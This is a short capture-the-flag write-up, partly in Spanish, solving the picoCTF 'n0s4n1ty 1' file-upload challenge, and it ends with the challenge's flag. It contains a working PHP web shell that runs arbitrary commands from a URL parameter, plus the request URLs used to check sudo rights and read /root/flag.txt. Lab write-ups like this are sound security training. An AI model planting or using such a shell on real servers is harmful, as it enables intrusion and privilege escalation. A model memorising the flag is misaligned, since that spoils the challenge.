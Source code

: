 
## n0s4n1ty 1

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:56835/)!


#### Hints:
1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check `sudo -l`




## Solución:
```
1. Primero entramos a la pagina web y observamos que podemos ingresar archivos, al subirlo nos damos cuenta que estamos trabajando con [[PHP]]:

http://standard-pizzas.picoctf.net:51000/


2. Por lo que nos apoyamos de [[nano]] para crear un código malicioso.




//

1. Entrar a la pagina
2. Hacer este código
(Hice este shell php y lo subí al servidor:)

<?php   
if ( isset ( $_GET [ 'cmd' ])){   
    echo  "<pre>" ;   
    $cmd = $_GET [ 'cmd' ];   // Obtener el comando de la cadena de consulta   
    system ( $cmd );          // Ejecutar el comando y mostrar la salida   
    echo  "</pre>" ;   
}   
?>



3. Luego, cualquier comando se puede ejecutar activando la ruta:  
    Punto final: **uploads/shell.php?cmd=**

http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=



4. Verifiquemos el usuario actual:

http://standard-pizzas.picoctf.net:56835/uploads/shell.php?cmd=whoami




5. Ahora veamos los privilegios del usuario actual:

http://standard-pizzas.picoctf.net:56835/uploads/shell.php?cmd=sudo%20-l




6. Ahora obtengamos la bandera como usuario root:
http://standard-pizzas.picoctf.net:56835/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt

```

#### Bandera
```
picoCTF{wh47_c4n_u_d0_wPHP_5f894f6c}
```
